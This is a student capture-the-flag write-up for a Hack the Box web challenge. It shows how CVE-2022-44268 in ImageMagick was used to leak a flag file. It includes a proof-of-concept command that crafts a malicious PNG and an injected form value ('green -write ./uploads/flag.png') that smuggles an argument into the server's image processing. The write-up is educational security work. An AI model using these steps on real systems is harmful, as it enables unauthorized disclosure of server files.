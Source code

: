 ## CSCE 5552: Final Project

**CSCE 5552: Cybersecurity Essentials**

**Group 7**

**Hack the Box:** Prying Eyes (Medium)

https://app.hackthebox.com/challenges/459

**Challenge Description:** Welcome to the Prying Eyes, a "safe space" for those curious about the large organisations that dominate our life. How safe is the site really?

This final project involved capturing the flag for the Hack the Box Prying Eyes web box. Our process of investigation involved reconnaissance, analyzing source files, and researching possible vulnerabilities. Upon initial inspection, the site is identified as using HTTP, having user registration and login, and the ability to upload image files. The user registration and login became a possible point to exploit a SQL injection attack and gain access to database credentials. Subsequent access to the database could lead to system access that allows the flag to be captured. Another possible idea involved using a payload to exploit the file upload feature. All steps were taken within Kali Linux.

## Reconnaissance:
Our group began by scanning for open ports and web application vulnerabilities. We utilized scanning tools, including nmap and Nessus, to further understand the web server. The nmap command only returned port 22 SSH. The Nessus vulnerability scanner only found that the web server was running on HTTP instead of HTTPS.

## Analyzing Source Files:
Our group's next step involved analyzing the source files that are available to download with the box. Within these javascript, dockerfile, and html files, we discovered multiple different tools and systems used by the web server as well as database credentials. This included sqlite and ImageMagick version 7.1.0-33.

## Researching Possible Vulnerabilities:
Keeping the gathered information in mind, our team began by attempting both basic and advanced SQL injection attacks through manual injection and by using the Hydra tool. After no luck with this type of attack, the version of ImageMagick was researched for possible vulnerabilities. The CVE-2022-44268 vulnerability was discovered (https://nvd.nist.gov/vuln/detail/CVE-2022-44268). This vulnerability allows for the disclosure of information to be embedded into a PNG file.

## Process of Capturing the Flag:
The steps taken to capture the flag include creating the malicious PNG file, uploading the malicious file to the website, altering the POST request, and retrieving the flag from the returned image file. In order to generate the malicious PNG file, the ImageMagick Arbitrary File Disclosure (CVE-2022-44268) tool by vulhub (https://github.com/vulhub/vulhub/tree/master/imagemagick/CVE-2022-44268) was used. 

Generate the malicious PNG that points to the flag.txt file within the working directory using the tool by vulhub:
```
sudo python3 ./poc.py generate -o evil.png -r /home/node/app/flag.txt
```

Verify the **tEXt** chunk is set to **profile./home/node/app/flag.txt**:
```
exiv2 -pS evil.png
```
![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/cde71d41-d5c9-469e-b48a-91820b89f62b)


**After the file was generated, Burp Suite was used to modify the POST request.**

Open Burp Suite in Kali:
```
burpsuite
```

Under 'Proxy', make sure 'Intercept is on' is selected. Then click 'Open browser' to launch the Chromium browser. Navigate to the website _(IP:Port)_ provided through Hack the Box within the Chromium browser, register if an account has not already been created, and login to an account. While intercept is turned on within Burp Suite, the user will need to 'Forward' all requests and responses. Once logged in, create a new post or comment on an existing post.

![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/c41b3cee-bcc4-469a-b9a6-b873c2abe831)

Modify the POST request to include another parameter, "Background", and alter the value to write to the /uploads directory:
```
Content-Disposition: form-data; name="background"

green -write ./uploads/flag.png
```

![image](https://github.com/daniellemonika/CSCE-5552-Prying-Eyes/assets/64706142/e75bd378-f678-4493-8776-1bcf0754c032)

Navigate to the newly written file by going to file location within a browser:
```
http://IP:Port/uploads/flag.png
```

The image that was uploaded should be shown on the flag.png page. Right-click and download this flie.

Convert the flag.AVIF file from AVIF to PNG:
```
convert flag.AVIF flag.png
```

Extract the metadata from the PNG file:
```
exiftool -b flag.png
```

Copy the long string hex code returned by the extraction into a hex to string calculator _(such as https://cyberchef.org/#recipe=From_Hex('Auto'))_ to obtain the flag.

## Risks of this Vulnerability:
This information disclosure vulnerability can allow for unauthorized access to data and a loss of confidentiality. If a threat actor gains unauthorized access to sensitive data, it may lead to financial and reputational losses.

## Prevention of this Vulnerability:
The CVE-2022-44268 vulnerability can be mitigated against by regular patching and updating of web application tools. Using versions with known vulnerabilities may leave systems open to being exploited.
